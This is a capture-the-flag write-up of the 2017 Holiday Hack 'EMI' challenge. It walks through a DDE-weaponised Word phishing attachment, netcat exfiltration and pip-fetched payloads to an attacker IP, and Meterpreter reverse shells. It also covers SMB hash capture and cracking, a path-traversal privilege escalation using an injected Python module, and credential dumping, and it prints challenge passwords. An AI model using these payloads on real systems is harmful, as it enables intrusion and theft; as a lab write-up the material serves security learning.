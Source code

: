 * Question
   :PROPERTIES:
   :CUSTOM_ID: q7_question
   :END:

Like any other complex SCADA systems, the North Pole uses Elf-Machine
Interfaces (EMI) to monitor and control critical infrastructure
assets. These systems serve many uses, including email access and web
browsing. Gain access to the EMI server through the use of a phishing
attack with your access to the EWA server. Retrieve The Great Book
page from C:\GreatBookPage7.pdf. What does The Great Book page
describe?

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q7_background-information
   :END:

Hints:

  1. I'm still a little angry with Alabaster for reprimanding me for a security violation. He still checks his email from the EMI system!
  2. He tells us not to install unnecessary software on systems, but he's running IIS with ASPX services on the EMI server, and Microsoft Office!
  3. Personally, I don't use Microsoft Word. I'll take vim and LaTeX any day. Word does have its advantages though, including some of the Dynamic Data Exchange features for transferring data between applications and obtaining data from external data sources, including executables.

The question gives us a place to start. As we were reviewing the e-mails for Question 4, a few intriguing ones stood out:

#+BEGIN_QUOTE
*From*: minty.candycane@northpolechristmastown.com

*To*: alabaster.snowball@northpolechristmastown.com

*Subject*: Should we be worried?



Hey Alabaster,

You know I'm a novice security enthusiast, well I saw an article a while 
ago about regarding DDE exploits that dont need macros for MS word to 
get command execution.

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Should we be worried about this?

I tried it on my local machine and was able to transfer a file. Here's a 
poc:

[[./images/dde_exmaple_minty_candycane_small.png]]

I know your the resident computer engineer here so I wanted to defer to 
the expert.

:)

-Minty CandyCane.
#+END_QUOTE

This certainly seems to line up with the hints that we were given. Alabaster's not worried, however:

#+BEGIN_QUOTE
*Subject*: Re: Should we be worried?


Quit worrying Minty,

You have nothing to worry about with me around! I have developed most of 
the applications in our network including our network defenses. We are 
are completely secure and impenetrable.

Sincerely,

Alabaster Snowball.
#+END_QUOTE

The other e-mails that seemed intriguging were these two, also from Alabaster:

#+BEGIN_QUOTE
*Subject*: gingerbread cookie recipe


Hey Mrs Claus,

Do you have that awesome gingerbread cookie recipe you made for me last year? You sent it in a MS word .docx file. I would totally open that 
docx on my computer if you had that. I would click on anything with the words gingerbread cookie recipe in it. I'm totally addicted and want to 
make some more.

Thanks,

Alabaster Snowball
#+END_QUOTE

#+BEGIN_QUOTE
*Subject*: Re: COOKIES!


Awesome, yea if anyone finds that .docx file containing the recipe for "gingerbread cookie recipe", please send it to me in a docx file. Im 
currently working on my computer and would totally download that to my machine, open it, and click to all the prompts.


Thanks!

Alabaster Snowball.
#+END_QUOTE

#+CAPTION: Artist's Rendering of Alabaster Snowball
[[./images/cookies.jpg]]

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q7_goal
   :END:

We're trying to craft a malicious .docx file which we'll e-mail to
alabaster.snowball@northpolechristmastown.com via the EWA system. When
Alabaster opens the e-mail on the EMI system, the command that we
embed in the file should get us access to =C:\GreatBookPage7.pdf=.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q7_approach
   :END:

At this point, we have a pretty good idea of what we need to do. The
sensepost blog post gives us some good instructions at how to
construct a malicious docx, and we know how to get Alabaster to click
on it.

However, there's a slightly easier way. On the SMB FileStor, we found
a docx that Shinny created for Wunorse. If we show the fields (Alt+F9
on Windows, Option+F9 on Mac), we see that this document has a DDE
field we can just modify.

[[./images/wunorse_docx.png]]

Shinny told us that the EMI system also runs IIS, so let's just try copying the PDF into the default IIS webroot.

We'll open up =MEMO - Calculator Access for Wunorse.docx=, and edit the command to:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k copy C:\\GreatBookPage7.pdf 
C:\\inetpub\\wwwroot\\4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.pdf"
#+END_SRC

Then, we use the EWA web interface to send an e-mail to Alabaster,
with the document attached. We make sure to include the words
"gingerbread," "cookie," and "recipe" in the message body, since he
told us that that's what he'll click on.

After we send the message, we wait a few minutes, and soon the file shows up!

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q7_solution
   :END:

We modified =MEMO - Calculator Access for Wunorse.docx= to copy the PDF into the IIS webroot, e-mailed that to Alabaster, then downloaded the copy of the file once it showed up.

* Going Deeper -- Command Execution

Getting the PDF is cool, but what else can we find on this system? Some of the other e-mails harp on Alabaster having installed =netcat=, and having it in his path. Let's run a command, and pipe the result to =netcat=, which will send it back to our system:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k dir C:\\ | nc 1.2.3.4 8888"
#+END_SRC

On our system, we start a =netcat= listener:

#+BEGIN_SRC 
$ nc -l -p 8888
 Volume in drive C has no label.
 Volume Serial Number is 9454-C240

 Directory of C:\

12/04/2017  08:42 PM         1,053,508 GreatBookPage7.pdf
11/14/2017  07:57 PM    <DIR>          inetpub
09/12/2016  11:35 AM    <DIR>          Logs
12/05/2017  05:00 PM    <DIR>          Microsoft
07/16/2016  01:23 PM    <DIR>          PerfLogs
11/15/2017  02:35 PM    <DIR>          Program Files
11/14/2017  08:24 PM    <DIR>          Program Files (x86)
11/15/2017  03:03 PM    <DIR>          python
11/14/2017  08:39 PM    <DIR>          Users
11/30/2017  06:23 PM    <DIR>          Windows
               1 File(s)      1,053,508 bytes
               9 Dir(s)  33,072,455,680 bytes free

C:\Users\alabaster_snowball\Documents>
#+END_SRC

Success! At this point, we started working on a way to automate
this. However, more complex commands would often not work, due to
issues with escaping. So instead of using =cmd.exe= as our delivery
mechanism, we used Python.

Python is installed on the system, and a simple command that we can run is to install a Python module via pip:

#+BEGIN_SRC sh
python.exe -m pip install http://1.2.3.4/foo.tar.gz
#+END_SRC

When pip installs a module, it will run the =setup.py= file. By adding
arbitrary Python code to this file, we can execute commands without
needing to worry about encoding them in a Word document, etc.

The end result was writing a complete end-to-end script, which will
build a malicious Word document, e-mail it, create a malicious Python
module, and use it to download the PDF.

* Level 2 -- Meterpreter Shell

#+begin_note
Originally, the system had Windows Defender enabled, which would block some default Meterpreter payloads
#+end_note

Instead of just downloading the PDF file, we can modify our script to send a Python meterpreter payload.

We start Meterpreter listening on our local system:

#+BEGIN_SRC 
$ msfconsole -r python-meterpreter-staged-reverse-tcp-4444-py.rc

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v4.16.14-dev-140955f                 ]
+ -- --=[ 1698 exploits - 969 auxiliary - 299 post        ]
+ -- --=[ 500 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc for ERB directives.
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> use exploit/multi/handler
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set LPORT 4444
LPORT => 4444
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set ExitOnSession false
ExitOnSession => false
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 1.2.3.4:4444
#+END_SRC

Now we use our all-in-one script to send Alabaster our malicious file:

#+BEGIN_SRC 
$ ./full_phish.py                                                                                                                                                                                                                                         master
Using 1.2.3.4 as external IP
Found word/document.xml, rewriting 50793 bytes
Before:
DEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
After:
DEAUTO c:\\windows\\system32\\cmd.exe "/k python.exe -m pip install http://1.2.3.4:8888/foo-1.0.tar.gz"
File uploaded and available at http://mail.northpolechristmastown.com/attachments/emusQH5oH5K2hzajPFvJbTGMuS__gingerbreadcookierecipe.docx
Sending message...

{'result': 'Message <f67b9d00-b263-2fdf-f3d1-2d679bbca9f4@northpolechristmastown.com> sent: 250 2.0.0 Ok: queued as 28EF1C356D', 'bool': True}
Using 1.2.3.4 as external IP
Listening on port 44665
Starting server on port 8888, use <Ctrl-C> to stop
Serving request 1 of 1...
/foo-1.0.tar.gz foo-1
35.185.57.190 - - [10/Jan/2018 03:14:47] "GET /foo-1.0.tar.gz HTTP/1.1" 200 -
#+END_SRC

And sure enough, we see a new session in Meterpreter:

#+BEGIN_SRC 
msf exploit(handler) >
[*] Sending stage (42231 bytes) to 35.185.57.190
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 35.185.57.190:52319) at 2018-01-10 03:15:51 +0000

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : hhc17-smb-server
OS              : Windows 2016 (Build 14393)
Architecture    : x64
System Language : en_US
Meterpreter     : python/windows
#+END_SRC

* Getting Alabaster's Password

Being able to use Meterpreter is nice, but it sure would be cool if we
could Remote Desktop, or see if Alabaster's password is in use
elsewhere. We'll use Metasploit's SMB Authentication Capture module.

#+begin_tip
Try to avoid running Metasploit as root. In this case, we'll need to bind to a privileged port (445), but we can use =iptables= to redirect our traffic instead:
=sudo iptables -A PREROUTING -t nat -p tcp --dport 445 -j REDIRECT --to-port 3445=
#+end_tip

#+BEGIN_SRC 
msf exploit(handler) > use auxiliary/server/capture/smb
msf auxiliary(smb) > info

       Name: Authentication Capture: SMB
     Module: auxiliary/server/capture/smb
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>

Available actions:
  Name     Description
  ----     -----------
  Sniffer

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel format
  CHALLENGE   1122334455667788  yes       The 8 byte server challenge
  JOHNPWFILE                    no        The prefix to the local filename to store the hashes in John format
  SRVHOST     0.0.0.0           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT     445              yes       The local port to listen on.

Description:
  This module provides a SMB service that can be used to capture the
  challenge-response password hashes of SMB client systems. Responses
  sent by this service have by default the configurable challenge
  string (\x11\x22\x33\x44\x55\x66\x77\x88), allowing for easy
  cracking using Cain & Abel, L0phtcrack or John the ripper (with
  jumbo patch). To exploit this, the target system must try to
  authenticate to this module. One way to force an SMB authentication
  attempt is by embedding a UNC path (\\SERVER\SHARE) into a web page
  or email message. When the victim views the web page or email, their
  system will automatically connect to the server specified in the UNC
  share (the IP address of the system running this module) and attempt
  to authenticate. Another option is using
  auxiliary/spoof/{nbns,llmnr} to respond to queries for names the
  victim is already looking for.

msf auxiliary(smb) > set SRVPORT 3445
SRVPORT => 3445
msf auxiliary(smb) > set JOHNPWFILE alabaster_snowball.john
JOHNPWFILE => alabaster_snowball.john
msf auxiliary(smb) > run
[*] Auxiliary module running as background job 3.
#+END_SRC

Now, we'll send the following command via e-mail:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k dir \\\\1.2.3.4\\a"
#+END_SRC

And sure enough, we get the following hashes:

#+BEGIN_SRC 
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:314d4bd798cac0c5fa2bb107ba248cc6
NT_CLIENT_CHALLENGE:0101000000000000d1b912a0358ad30143592f0cabfa891000000000020000000000000000000000
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:aaa7328ccd721a5e96bfb188eb4ecbdd
NT_CLIENT_CHALLENGE:010100000000000001431ca0358ad301c89b21fb5e4c160d00000000020000000000000000000000
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:71570491da3f413ce830788429820789
NT_CLIENT_CHALLENGE:010100000000000024042ba0358ad301a28a0bc07ea8214300000000020000000000000000000000
#+END_SRC

We now have the following file:

#+BEGIN_SRC 
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:3d0a58908a34215103b43a000b5807ab:0101000000000000f0a52fe4358ad3018486290b6477913300000000020000000000000000000000
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:5c63d79712f174de38ee30de2136b53e:0101000000000000e4e554e4358ad301fee549fa52c9b5ef00000000020000000000000000000000
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:de4559d983096a0a895484a61834283f:0101000000000000fb6a68e4358ad301645b79e4a5ed58c300000000020000000000000000000000
#+END_SRC

We'll use =hashcat= to crack this:

#+BEGIN_SRC 
hashcat64.bin -m 5600 -a 0 alabaster_snowball.john.netntlmv2 wordlist.txt -O -w 4
...
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:3d0a58908a3...:Carried_mass_it_reader1
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:5c63d79712f...:Carried_mass_it_reader1
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:de4559d9830...:Carried_mass_it_reader1
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
...
#+END_SRC

Armed with a password, we can remote desktop:

#+CAPTION: Logging in to EMI as Alabaster via RDP
#+attr_html: :width 500px
[[./images/alabaster_rdp.png]]

Woot! We're hand-waving some of this for now, as there will be a
longer discussion about how we cracked passwords. TODO link to that
discussion.

* Next up -- Privilege Escalation!

Unfortunately, our commands only run as Alabaster, who is just a
regular user on the EMI system. We can do better than that.

Once we got command execution on this system, we started looking to
see what was running. It was obvious that Office was not installed,
and we started to question whether Alabaster even used this system, or
if it was all a big charade.

We found that the system was running a service, called
=WindowsGrabber= which would download new e-mails, try to parse out
their DDE payloads, and execute them. It did this via =C:\Program Files\WindowsGrabber\alabaster_snowball.py=. That file also had credentials for the EWA system:

#+BEGIN_SRC python
srverAddress = '10.142.0.5'
#srverAddress = '35.185.115.185'
user = 'alabaster.snowball@northpolechristmastown.com'
passw = 'power instrument gasoline film'
#+END_SRC

(As an aside, this code snippet also confirmed our theory about the
systems moving from the public IPs we found during the Recon stage, to
private ones).

This service was running as the alabaster_snowball user that we could
already run commands as, so it wasn't a target for privilege
elevation.

...and then, on December 23rd, all of that changed. The setup was
changed, so now two services were running: =WindowsGrabber= was now
running as =LocalSystem=, a very privileged account on Windows, and
=agrabber= was running as Alabaster. The Python script was no longer
readable by Alabaster, but it was modified so that instead of directly
running the commands, it would write them to a file, and then the
lesser-privileged =agrabber= service would run them from that file.

Unfortunately, there was a vulnerability in
=alabaster_snowball.py=. It turns out that there are two ways to send
the file to Alabaster: we can either attach it via the EWA webmail
interface, which uploads a copy to =mail.northpolechristmastown.com=
and inserts a link in the e-mail, *OR* we can simply attach it to the
e-mail. In the case of the latter, the script does the following:

#+BEGIN_SRC python
def save_attachment(self, msg):
    """
    Given a message, save its attachments to the specified
    download folder (default is /tmp)

    return: file path to attachment
    """
    download_folder = tempfile.mkdtemp()
    att_path = False
    for part in msg.walk():
        if part.get_content_maintype() == 'multipart':
            continue
        if part.get('Content-Disposition') is None:
            continue

        filename = part.get_filename()
        att_path = os.path.join(download_folder, filename)

        if not os.path.isfile(att_path):
            fp = open(att_path, 'wb')
            fp.write(part.get_payload(decode=True))
            fp.close()
    return att_path
#+END_SRC

The issue here is the line:

#+BEGIN_SRC python
att_path = os.path.join(download_folder, filename)
#+END_SRC

The filename is controlled by us, as it comes from the e-mail message
itself. By prefixing our filename with =../../../..= we can write
anywhere on the system, as the LocalSystem account.

With unrestricted write access, how can we turn that into code
execution? We could a number of techniques, such as DLL hijacking, but
many are made more difficult by the fact that we can't *read* files
with our privileged access, only write to them.

Once again, we turned to Python. We targetted the
=alabaster_snowball.py= script itself, with Python module
injection. An import command such as:

#+BEGIN_SRC python
import glob
#+END_SRC

will cause Python to search for =glob.py= in the current directory,
and then in some system-wide directories. If we can write a malicious
=C:\Program Files\WindowsGrabber\glob.py=, the next time the service restarts, our code will run as LocalSystem.

#+begin_danger
These files can break the =alabaster_snowball.py= script. Because they're being written as privileged, the regular Alabaster account cannot modify or delete them. Take great care in what you send!
#+end_danger

Our file ends up looking like this:

#+BEGIN_SRC python
import sys, imp, os
def get_mod(modname):
    fd, path, desc = imp.find_module(modname, sys.path[::-1])
    return imp.load_module("orig_" + modname, fd, path, desc)

locals().update(vars(get_mod(__name__)))

try:
    if not os.path.isfile("C:/Windows/Temp/have_run"):
        os.system('nssm install zGrabber C:\\Users\\ALABAS~1\\AppData\\Local\\Temp\\2\\4445.exe')
        open("C:/Windows/Temp/have_run", 'a').close()
    os.system('nssm start zGrabber')
except:
    print("Could not run")
#+END_SRC

The top half loads the actual glob module, and makes it available to
anything that imported our malicious glob module. The bottom half
creates a new service, which will run a file that we uploaded,
4445.exe. This service uses the Non-Sucking Service Manager (nssm)
that manages the other Grabber services, and will be installed as a
LocalSystem service as well. Finally, we start our service, and ignore
any exceptions in case we made a mistake.

Getting this file right was a little nerve-wracking, and required a
great deal of testing. The vulnerability we found will only allow you
to write new files, and because the files are written as the
LocalSystem account, there was no way to modify or delete them once
written if this did not work.

Now, we craft an e-mail, which has our base64-encoded glob.py as an
attachment, and we give the attachment a filename that will put it in
the right place:

#+BEGIN_SRC 
HELO l2s
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
DATA
MIME-Version: 1.0
Subject: Test E-mail
From: wunorse.openslae@northpolechristmastown.com
To: alabaster.snowball@northpolechristmastown.com
Content-Type: multipart/mixed; boundary="089e082f74245acc5b05624d7433"

--089e082f74245acc5b05624d7433
Content-Type: multipart/alternative; boundary="089e082f74245acc5605624d7431"

--089e082f74245acc5605624d7431
Content-Type: text/plain; charset="UTF-8"

gingerbread cookie recipe


--089e082f74245acc5b05624d7433
Content-Type: text/x-python-script; charset="US-ASCII"; name="glob.py"
Content-Disposition: attachment; filename="../../../../../../../../../../../../Program Files/WindowsGrabber/glob.py"
Content-Transfer-Encoding: base64
X-Attachment-Id: f_jc6xkfum1

aW1wb3J0IHN5cywgaW1wLCBvcwpkZWYgZ2V0X21vZChtb2RuYW1lKToKICAgIGZkLCBwYXRoLCBk
ZXNjID0gaW1wLmZpbmRfbW9kdWxlKG1vZG5hbWUsIHN5cy5wYXRoWzo6LTFdKQogICAgcmV0dXJu
IGltcC5sb2FkX21vZHVsZSgib3JpZ18iICsgbW9kbmFtZSwgZmQsIHBhdGgsIGRlc2MpCgpsb2Nh
bHMoKS51cGRhdGUodmFycyhnZXRfbW9kKF9fbmFtZV9fKSkpCgp0cnk6CiAgICBpZiBub3Qgb3Mu
cGF0aC5pc2ZpbGUoIkM6L1dpbmRvd3MvVGVtcC9oYXZlX3J1biIpOgogICAgICAgIG9zLnN5c3Rl
bSgnbnNzbSBpbnN0YWxsIHpHcmFiYmVyIEM6XFxVc2Vyc1xcQUxBQkFTfjFcXEFwcERhdGFcXExv
Y2FsXFxUZW1wXFwyXFw0NDQ1LmV4ZScpCiAgICAgICAgb3BlbigiQzovV2luZG93cy9UZW1wL2hh
dmVfcnVuIiwgJ2EnKS5jbG9zZSgpCiAgICBvcy5zeXN0ZW0oJ25zc20gc3RhcnQgekdyYWJiZXIn
KQpleGNlcHQ6CiAgICBwcmludCgiQ291bGQgbm90IHJ1biIpCg==

--089e082f74245acc5b05624d7433--
.

#+END_SRC

Now we just send that over =netcat=, and wait:

#+BEGIN_SRC 
$ nc mail.northpolechristmastown.com 25
220 mail.northpolechristmastown.com ESMTP Postfix
HELO l2s
250 mail.northpolechristmastown.com
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
250 2.1.0 Ok
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
550 5.7.1 <alabaster.snowball@northpolechristmastown.com>: Recipient address rejected: Message rejected due to: SPF fail - not authorized. 
Please see http://www.openspf.net/Why?s=mfrom;id=wunorse.openslae@northpolechristmastown.com;ip=10.142.0.3;r=alabaster.snowball@northpolechristmastown.com
#+END_SRC

Foiled! If we dig a little deeper however, and we use our =nmap= scan results, we'll find that there's another SMTP service listening on port 2525 which *will* allow us to send our e-mail:

#+BEGIN_SRC 
220 mail.northpolechristmastown.com ESMTP Postfix
HELO l2s
250 mail.northpolechristmastown.com
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
250 2.1.0 Ok
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
MIME-Version: 1.0
Subject: Test E-mail
...
--089e082f74245acc5b05624d7433--
.
250 2.0.0 Ok: queued as 1755CC35D2
#+END_SRC

If we do a directory listing, we see that our plan worked:

#+BEGIN_SRC 
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  7670  fil   2017-12-23 04:28:42 +0000  alabaster_snowball.py
100666/rw-rw-rw-  257   fil   2017-12-23 05:17:52 +0000  execute.ps1
100666/rw-rw-rw-  0     fil   2018-01-09 01:25:40 +0000  file.txt
100666/rw-rw-rw-  228   fil   2018-01-09 01:25:36 +0000  glob.py
#+END_SRC

Now we just need to launch Metasploit and wait for the service to restart...

#+BEGIN_SRC 
$ msfconsole -r windows-meterpreter-stageless-reverse-tcp-4445-exe.rc


     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`


                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue



       =[ metasploit v4.16.14-dev-140955f                 ]
+ -- --=[ 1698 exploits - 969 auxiliary - 299 post        ]
+ -- --=[ 500 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc for ERB directives.
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> use exploit/multi/handler
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set PAYLOAD windows/meterpreter_reverse_tcp
PAYLOAD => windows/meterpreter_reverse_tcp
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set LPORT 4445
LPORT => 4445
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set ExitOnSession false
ExitOnSession => false
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> run -j
[*] Exploit running as background job 0.
Meterpreter session 1 opened (1.2.3.4:4445 -> 35.185.57.190:49672) at 2018-01-09 05:08:43 +0000
msf exploit(handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ HHC17-SMB-SERVE  1.2.3.4:4445 -> 35.185.57.190:49756 (10.142.0.8)
#+END_SRC

And now, we've managed to elevate our credentials. There are a few
"post-exploitation" modules for Meterpreter, which will use our
session. For instance, let's dump the hashes on the system:

#+BEGIN_SRC 
msf exploit(handler) > set -g SESSION 1
SESSION => 1
msf exploit(handler) > use post/windows/gather/credentials/credential_collector
msf post(credential_collector) > run

[*] Running module against HHC17-SMB-SERVE
[+] Collecting hashes...
    Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: alabaster_snowball:aad3b435b51404eeaad3b435b51404ee:10e2fa00c44d10ca05d399f47ed13351
    Extracted: DefaultAccount:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: sysadmin:aad3b435b51404eeaad3b435b51404ee:27309e9a73764938860b4a1ed7c0392b
[+] Collecting tokens...
    HHC17-SMB-SERVE\alabaster_snowball
    IIS APPPOOL\DefaultAppPool
    NT AUTHORITY\IUSR
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1
    NT AUTHORITY\ANONYMOUS LOGON
[*] Post module execution completed
#+END_SRC

We could try to crack some hashes, but there's an easier way. Let's check the LSA secrets:

#+BEGIN_SRC 
msf post(credential_collector) > use post/windows/gather/lsa_secrets
